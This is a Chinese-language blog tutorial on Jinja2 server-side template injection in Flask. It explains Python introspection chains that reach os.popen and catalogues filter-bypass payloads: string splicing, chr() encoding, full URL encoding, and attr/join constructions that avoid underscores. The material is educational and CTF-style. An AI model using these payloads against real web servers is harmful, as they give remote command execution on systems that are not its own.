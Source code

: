 ```yaml
---
layout:     post
title:      ssti
subtitle:   ssti
date:       2020-08-29
author:     RRY
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - python-ssti-jinja2
---
```

# ssti

### 0x00前置知识
模块是一个包含响应文本的文件，其中包含占用位变量表示的动态部分，其具体值只在请求的上下文中才知道。使用真实值替换变量，再返回最终得到的响应字符串，这一过程称为渲染。为了渲染模块，Flask使用一个名为Jinja2的强大模板引擎。

__1. 变量__
```python
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def index():
    name = "rry"
    temlate = '''
        <h1>hello,{{name}}</h1>
    '''
    return render_template_string(temlate,name=name)
    
if __name__ == '__main__':
    app.debug = True
    app.run()
```
__2. if条件__

   ![d7qKZF.png](https://s1.ax1x.com/2020/08/29/d7qKZF.png)

3. for循环和宏定义类似，这里就不举例了
4. 如果需要用到占位符，单个%的换成两个%
   

### 0x01实现原理

![d7O0gI.png](https://s1.ax1x.com/2020/08/29/d7O0gI.png)

__1. python内置了许多方法如__
	- `__class__`返回对象所属的类。
	- `__bases__`以元组的形式返回一个类所直接继承的类。
	- `__base__`以字符串返回一个类所直接继承的类。
	- `__mro__`返回解析方法调用的顺序。
	- `__subclasses__()`获取类的所有子类。
	- `__init__`所有自带带类都包含init方法，便于利用他当跳板来调用globals。
	- `__globals__`通过`function.__globals__`，用于获取函数所处空间下可使用的module、方法以及所有变量。
	- `__getattribute__` 使用实例访问属性时,调用该方法
	- `__dict__` 查看方法
__2. 通过模板渲染和自带方法我们可以实现任意命令执行__
	- 首先通过'`"".__class__`获得str类
	- 再用`"".__class__.__bases__`或者`"".__class__.__mro__[1]`获得基类
	- `.__subclasses__()`可以获取所有子类
	- 再使用`.__init__.__globals__[]`找到包含os模块的子类
	- 最终payload`?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}`

```python
# python3
# 一个常见的poc
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
    	{% for b in c.__init__.__globals__.values() %}
			{% if b.__class__ == {}.__class__ %}
      			{% if 'eval' in b.keys() %}
					{{b['eval']('__import__("os").popen("dir").read()')}}
     			{% endif %}
    		{% endif %}
		{% endfor %}
	{% endif %}
{% endfor %}
```
其他的的利用先贴一张图（好眼熟hhhh）
![img](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)
这里warnings其实是个module，如果报错`jinja2.exceptions.UndefinedError: 'warnings' is undefined`是因为没有导入warnings模块，但是导入后其实同样不能用，原因可以能是jinja2的渲染过滤掉了warnings，不让用了吧
只有在本地是可以这样用的
![dGML3n.png](https://s1.ax1x.com/2020/08/20/dGML3n.png)
但是不同环境，下标不同，这个方法在py3.8是不是就不能用了呢。。。

### 0x02绕过检测
1. __关键字过滤__
	- 字符串拼接`{{""["__cla"+"ss__"]}}`
   
	- 字符串拼接`{{"".__getattribute__("__cla"+"ss__")}}`(python3好像不能字符串拼接了，只能用这个函数传一个字符串过去....)
   
	- format替换`{{fl{0}g.format('a')}}`
   
	- doc方法，返回类或函数的介绍`{{''.__class__.__doc__[1]}}`
   
     ![dyp7lj.png](https://s1.ax1x.com/2020/08/24/dyp7lj.png)
   
	- replace和join过滤器`{{'aay'|replace('a','r')}}`	`{{'rr''y'|join}}`
   
	- python2的一种方法(pyhon3的字符串没有decode方法)`{{'X19jbGFzc19f'.decode('base64')}}`
   

__2. 引号过滤__
   首先我们从引号的作用出发，第一个引号是为了用字符串来引出基类object，而任何数据结构都可以引出基类，比如0，[]，{}，后面的引号是用来获得键值，我们可以利用request.args或者request.values绕过，request.args是flask用来存储请求参数的一个字典。
   ![dy9pp4.png](https://s1.ax1x.com/2020/08/24/dy9pp4.png)

```python
http://127.0.0.1:5000/?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[request.args.a][request.args.b](request.args.c).read()}}&a=os&b=popen&c=whoami
```
   还可以利用chr()和set来绕过，首先fuzz一下找到chr()
```python
{{().__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr}}
```
   ![dyezlV.png](https://s1.ax1x.com/2020/08/24/dyezlV.png)

```python
{%set chr=[].__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr%}{{[].__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[chr(111)+chr(115)][chr(112)+chr(111)+chr(112)+chr(101)+chr(110)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)).read()}}
```
   这里加号一定要用url编码成%2B防止被解码成空格，然而像下面这样全部url编码也是可以的。
```python
%7b%25%73%65%74%20%63%68%72%3d%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%73%5f%5f%5b%30%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%63%68%72%25%7d%7b%7b%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%6d%72%6f%5f%5f%5b%31%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%5b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%35%29%5d%5b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%30%31%29%2b%63%68%72%28%31%31%30%29%5d%28%63%68%72%28%31%31%39%29%2b%63%68%72%28%31%30%34%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%39%37%29%2b%63%68%72%28%31%30%39%29%2b%63%68%72%28%31%30%35%29%29%2e%72%65%61%64%28%29%7d%7d
```

__3. 中括号过滤__
   点号代替中括号的作用
```
{{''.__class__.__mro__.1.__subclasses__().299.__init__.__globals__.os.popen('whoami').read()}}
```
   利用`__getitem__();a[2] == a.__getitem__(2)`
   利用join进行绕过`{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_`

__4. 双大括号过滤__
   利用jinja2的条件和循环语法
```python
{% for i in list %}
	{% if 1==1 %}
	{% endif %}
{% endfor %}
# 可以使用上面贴的常用poc
```
__5. 阉割过滤__
   builtins是python的内建模块，所谓内建模块就是你在使用时不需要import，python启动后，在没有执行程序员编写的任何代码前，python会加载内建模块中的函数到内存中。比如经常使用的abs(),str(),type()等。而在python2.x中这个模块叫做builtins.如果你需要向内建模块中添加自己的函数，则必须import builtins(在main模块中可以直接通过builtins添加函数，不需要import builtins)
   python2中可以通过重新载入builtins来恢复被删除掉的方法。python3中已经不能直接使用reload函数，需要导入imp库

```
reload(__builtins__)
```
   ![dfe7PU.png](https://s1.ax1x.com/2020/08/26/dfe7PU.png)
__6. 下划线过滤__
   request.args绕过
   {{""["\x5f\x5fclass\x5f\x5f"]}}有的时候python并不支持这种写法，"\x5f"是字符 ”_“，”\x2E"是字符 "."
   { { request.headers['X-Forwarded-For']} } ，没有尝试。
   Jinja有类似Linux管道机制的语法，即'|'符号。利用此语法加上attr()方法，就可以达到在方括号中书写属性名称一样的效果.。
```python
{{[]|attr('__class__')}}
{{[].__class__}}
# 两者是相当的
```
由此我们可以逐步将payload转换成不带下划线的格式
```python
# 1.0
{{''.__class__.__base__.__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}
# 2.0
# {{''|attr('__class__')|attr('__base__')|attr('__subclasses__')()[299]}}拼接到这里的时候出现语法错误，但是按照下面当做二维列表就可以取到想要的类了(神奇*1...)。
{{[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]}}
# 3.0继续拼接，只要用到中括号取值就要搞成二维列表取0
{{[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']}}
# 4.0但是接下来取popen就不用二维列表...当然用上了不会出错(神奇*2...)
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']}}
# 5.0继续加上剩下的
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 6.0再利用join特性将_分离([1,2,3]|join 结果为123)
{{[[[''|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][299]|attr(['_'*2,'init','_'*2]|join)|attr(['_'*2,'globals','_'*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 7.0最后_替换[[]|map|string|list][0][20]，得到最终payload
{{[[[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][299]|attr([[[]|map|string|list][0][20]*2,'init',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'globals',[[]|map|string|list][0][20]*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
```
__7. 点号过滤__
   attr的使用，同上
__8. |join过滤__
   `blacklist = ["__","request[request.","__class__",'[',']',"|join"]`
   使用管道+format方法，用格式化字符串生成被过滤的字串。
```python
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```   

> 参考文章
>
> https://xz.aliyun.com/t/6885
>
> https://xz.aliyun.com/t/3679
>
> https://blog.csdn.net/slamx/article/details/49286863
>
> https://www.cnblogs.com/caicairui/p/7778410.html?utm_medium=referral
>
>https://diego-x.github.io/2020/05/20/Flask-ssti%E7%BB%95%E8%BF%87/
>
>https://www.cnblogs.com/Mrfanl/p/10198174.html
>
>https://www.jianshu.com/p/a736e39c3510
